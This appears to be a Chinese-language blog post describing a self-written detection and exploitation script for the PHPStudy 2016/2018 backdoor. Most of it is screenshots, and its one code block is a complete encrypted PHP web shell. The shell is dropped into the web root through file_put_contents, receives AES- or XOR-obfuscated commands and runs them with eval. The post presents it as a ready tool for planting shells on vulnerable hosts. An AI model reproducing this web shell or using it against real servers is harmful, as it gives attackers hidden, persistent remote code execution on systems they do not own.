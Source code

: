 ### PHPstudy后门漏洞POC-EXP编写

> phpstudy后门事件过去有一段时间了，漏洞也已经复现了；网上有好多检测的POC，为什么要自己写呢，因为好久没有写代码了，通过这个漏洞巩固一下code，代码国庆前写了一半，被各种事情耽搁，今天补写完整。这次写代码使用面向对象以及参数化编写，就漏洞本身来说，这种方式很麻烦，但是为了毕设的代码量练习（小声BB）。脚本支持PHPstudy2018和2016后门漏洞的检测、利用以及直接上传shell。

#### 批量检测POC

支持自定义输入目标文件

![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570982761.17.png)![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570982822.79.png)

### 漏洞利用

带参数检测、利用、传shell

phpstudy 2018

![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570983146.36.png)![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570983187.58.png)

phpstudy 2016

> 唯一有变化的就是上传shell的时候，根路径和2018不一样,路径修改如下

```php
file_put_contents('./WWW/about.php', '<?php
@error_reporting(0);
session_start();
if (isset($_GET["pass"]))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION["k"]=$key;
    print $key;
}
else
{
    $key=$_SESSION["k"];
	$post=file_get_contents("php://input");
	if(!extension_loaded("openssl"))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode("|",$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __construct($p) {eval($p."");}}
	@new C($params);
}
?>');
```

![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570983388.91.png)

![](https://demos-qq.oss-cn-beijing.aliyuncs.com/Blog/1570983409.4.png)

#### 不带参数检测、利用、传shell

> 和带参数的效果一样，就不放图了，不同的是执行命令传shell时没有解析参数时被转义的问题了

### 参考

https://yzddmr6.tk/posts/phpstudy-backdoor/

<https://github.com/NS-Sp4ce/PHPStudy_BackDoor_Exp>

### 详细文章地址

[PHPstudy后门漏洞POC-EXP编写](<http://www.lsowl.top/2019/10/14/PHPstudy%E5%90%8E%E9%97%A8%E6%BC%8F%E6%B4%9EPOC-EXP%E7%BC%96%E5%86%99/#more>)

